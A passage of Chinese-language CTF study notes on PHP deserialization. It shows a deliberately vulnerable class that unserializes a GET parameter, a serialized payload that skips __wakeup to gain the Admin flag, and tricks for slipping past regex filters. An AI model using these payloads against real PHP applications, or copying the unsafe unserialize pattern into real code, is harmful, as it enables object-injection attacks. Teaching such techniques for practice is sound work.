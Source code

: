 例题分析：

```php
<?php
highlight_file(__FILE__);

class User {
    public $name;

    function __construct($name) {
        $this->name = $name;
    }

    function __wakeup() {
        $this->name = "Guest";
    }

    function __destruct() {
        if ($this->name === "Admin") {
            echo "Greetings, Admin! Your flag is: FLAG{example_flag}";
        }
        echo "Goodbye, " . $this->name . "!";
    }
}

unserialize($_GET['u']);
```

EXP：

```
O:4:"User":2:{s:4:"name";s:5:"Admin";}
```

- `PHP > 7.1` 反序列化时对类属性的**访问控制**不敏感，只要属性名相同，就可以正常反序列化
- 表示字符类型的标识`S`为**大写**时，其内容会被当成十六进制解析，如`S:3:"\61\62\63"`
- 使用`+`绕过`preg_match('/^O:\d+/')`正则检查，如`O:+4:"test"`

练习题

- BUUCTF - [NewStarCTF 2023 公开赛道]Unserialize Again

## POP 链构造

面向属性编程（Property-Oriented Programing）

- 题眼

题目中有多个类，且每个类存在魔术方法

## 练习题

- BUUCTF - [NewStarCTF 公开赛赛道]UnserializeOne

## Phar 反序列化
